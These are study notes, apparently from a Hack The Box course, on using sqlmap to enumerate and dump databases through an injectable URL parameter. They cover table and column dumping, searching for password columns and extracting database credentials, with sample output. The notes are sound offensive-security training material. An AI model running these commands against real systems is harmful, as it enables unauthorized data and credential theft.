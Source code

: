 ```yaml
---
title: c-Enumeration
draft: false
tags:
---
```

## Database Enumeration

- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights (switch `--is-dba`)

e.g

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

## Table Enumeration

Use `--tables` option with DB named specified with `-D` option to get a list of tables:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

After spotting the table name of interest, retrieve its content using `--dump` and `-T` option:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

## Table and Row Enumeration

When the table has many columns or rows, we can specify column using `-C` flag:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

We can specify rows using `--start` and `--stop` options:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

## Conditional Enumeration

If we want to look for name that starts with `f`:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```


## Advanced Database Enumeration

### DB Schema Enumeration

We can retrieve the structure of all tables so that we can have a complete overview of the database.

`--schema` switch

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+
```

### Searching for Data

We can use `--search` option to look for data interested.

e.g Look for all of the table names containing the keyword `user`:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user
```

e.g Look for all of the column names based on the keyword `pass`:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+
```

### Password Enum and Crack

We can use `--passwords` switch to dump the content of system tables containing database-specific credentials:

```shell-session
jadu101@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

